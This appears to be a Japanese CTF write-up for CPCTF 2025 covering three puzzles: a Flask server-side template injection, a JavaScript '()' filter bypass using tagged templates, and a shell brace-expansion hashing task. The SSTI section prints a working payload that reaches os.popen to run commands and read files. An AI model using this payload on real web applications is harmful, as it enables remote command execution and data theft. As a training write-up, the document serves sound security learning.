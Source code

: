 # CPCTF 2025 writeup

## Name Omikuji(web)

render_template_stringがありました。SSTIです。

```python
 fortune = get_fortune(name)

    result = f"""
    {css}
    <h1>🔮 名前占い 🔮</h1>
    <div class="result">
        <p>こんにちは、{name}さん。</p>
        <p>あなたの運勢は…… <span class="fortune">{fortune}</span> です！</p>
    """

    if fortune == "大吉":
        with open("flag.txt", "r") as f:
            content = f.read()
            result += f'<div class="flag">フラグは{content}です。</div>'

    result += "</div>"
    return render_template_string(result)
```
`render_template_string`というのがimportされていた。
SSTIが使えそう
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

```
CPCTF{sst1_is_d3ngerou2}
```


## String Calculator(web)
```javascript
const getFlag = () => process.env.FLAG ?? "";

...省略...

app.get("/api/flag", require("hono/bearer-auth").bearerAuth({ token: btoa(getFlag()) }), (c) => {
  return c.text(getFlag());
});

```
`server.js`の`getFlag`を実行できればFLAGが出そう。
`getFlag()`と実行したいが、`()`がブロックされてるらしい。

`getFlag`` `で実行できるらしい。

```
CPCTF{JavaScr!pt_!s_4n_4wes0me_1anguage}
```

## XFD(shell)
A~XFDを出力してSHA-256する。

```shell
echo {A..Z} {A..Z}{A..Z} {A..W}{A..Z}{A..Z} X{A..E}{A..Z} XF{A..D} | tr ' ' '\n' | shasum -a 256
```
`tr ' ' '\n'` は` `を`\n`に置き換える

```
CPCTF{6526814a735caafefa75d482c954e11d49c110f5dc73dce2f951d6b11339c05b} 
```
